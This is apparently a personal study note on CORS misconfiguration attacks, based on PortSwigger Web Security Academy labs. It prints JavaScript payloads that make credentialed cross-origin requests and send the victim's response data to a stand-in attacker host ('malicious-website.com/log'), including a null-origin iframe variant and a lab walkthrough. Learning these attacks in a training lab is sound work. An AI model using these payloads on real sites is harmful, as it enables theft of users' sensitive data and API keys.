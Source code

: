 # CORS Notes

[Portswigger](https://portswigger.net/web-security/cors#what-is-cors-cross-origin-resource-sharing)

## Methodology

Example script to steal info from a user

```
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
	location='//malicious-website.com/log?key='+this.responseText;
};
```

Using that script in an iframe for a whitelisted null in the origin value:

```
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
location='malicious-website.com/log?key='+this.responseText;
};
</script>"></iframe>
```


## Labs Walkthrough

### Basic Origin Reflection Attack

- log into application and review the request to /accountDetails
- notice the usage of the `Access-Control-Allow-Origin` header, suggesting the usage of CORS
- ![image](https://github.com/user-attachments/assets/88d4be40-617a-442d-b257-20e37916e5e5)
- - we can validate it reflects the cors by adding an arbitrary Origin header with anything and view the response `Access-Control-Allow-Origin` header having our arbitrary value reflected
- ![image](https://github.com/user-attachments/assets/282744d5-6db9-4474-ad93-66a449f30432)
- create the request by using the /accountDetails as the path for sensitive data and set location to just /log

```
<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','0aab0073041f4fa4815f39dc00ce00a4.web-security-academy.net/accountDetails',true);
req.withCredentials = true;
req.send();

function reqListener() {
location='/log?key='+this.responseText;
};
</script>
```

- after storing and delivering to the victim, go to access log to find the api key to submit






